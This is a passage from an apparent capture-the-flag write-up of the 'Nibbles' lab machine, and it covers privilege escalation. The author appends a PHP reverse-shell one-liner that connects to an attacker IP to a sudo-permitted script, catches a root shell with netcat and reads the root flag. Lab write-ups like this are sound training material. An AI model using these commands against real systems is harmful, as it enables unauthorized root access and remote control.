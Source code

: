 User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
: unable to resolve host Nibbles: Connection timed out</pre>

So I can run monitor.sh as root which will allow me to get a reverse root shell. I unzipped the personal zip folder and added this to the bottom of monitor.sh

<pre>sudo php -r '$sock=fsockopen("10.10.14.234",44444);exec("/bin/sh -i &lt;&3 &gt;&3 2&gt;&3");'</pre>

I started a netcat listener on the 44444 port. After about 20 seconds I got a connection back.

<pre>[root:...ktop/nibbles/personal/stuff]# nc -lvp 44444
listening on [any] 44444 ...
10.10.10.75: inverse host lookup failed: Unknown host
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.75] 50308
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
b6d745c0dfb6457c55591efc898ef88c
#</pre>

FIN

Conclusion

This was quite and easy box for me. Not long ago I had finished Bashed and remembered to take advantage of the sudo -l. I want to go back and redo this box before it retires and complete it without using metasploit.